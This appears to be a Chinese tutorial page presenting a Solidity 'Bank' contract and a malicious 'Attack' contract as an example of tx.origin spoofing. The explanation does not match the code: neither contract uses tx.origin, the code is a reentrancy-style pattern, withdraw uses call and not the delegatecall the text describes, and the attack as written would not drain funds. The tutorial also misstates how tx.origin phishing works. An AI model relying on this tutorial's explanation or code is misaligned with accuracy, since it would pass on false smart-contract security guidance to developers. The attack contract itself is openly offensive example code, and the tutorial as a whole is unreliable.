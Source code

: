 # 交易原始地址欺骗攻击

在Solidity中，使用 `tx.origin` 变量可以获取发起合约调用的地址。然而，由于该变量容易被伪造，因此可能会被黑客利用来进行欺骗攻击，尤其是针对智能合约之间的互操作性问题。

# 示例
在本示例中，我们将创建一个名为 `Attack` 的恶意合约，它将试图欺骗用户并以其身份向名为 `Bank` 的另一个合约发送交易，从而窃取资金。

```solidity
pragma solidity ^0.5.16;

contract Bank {
    mapping(address => uint256) private balances;

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw(uint256 _amount) public {
        require(balances[msg.sender] >= _amount);
        balances[msg.sender] -= _amount;
        (bool success, ) = msg.sender.call.value(_amount)("");
        require(success);
    }
}

contract Attack {
    Bank bank;

    constructor(Bank _bank) public {
        bank = Bank(_bank);
    }

    function attack() public payable {
        bank.withdraw(1 ether);
    }

    function () external payable {
        if (address(bank).balance > 0) {
            bank.withdraw(1 ether);
        }
    }
}
```

在此示例中，我们定义了两个合约： `Bank` 和 `Attack`。

`Bank` 合约是一个基本的银行合约，允许用户存款、提款和查询余额。合约使用映射来跟踪每个地址的余额，并在执行提款操作时使用委托调用来发送资金。

`Attack` 合约是一个恶意合约，它接受一个 `Bank` 合约作为参数，并尝试欺骗用户以其身份向 `Bank` 合约发送交易。在 `attack` 函数中，我们尝试向名为 `Bank` 的合约发送1ETH的交易。由于传递给 `withdraw` 函数的 `msg.sender` 变量将被设置为 `Attack` 合约的地址，而不是用户的真实地址，因此黑客可以成功地从 `Bank` 合约中窃取资金。

为了避免这种攻击，我们需要避免使用 `tx.origin` 变量或者对其进行更加严格的身份验证和授权检查。如果您正在与其他智能合约交互，请确保理解其工作原理并信任其代码。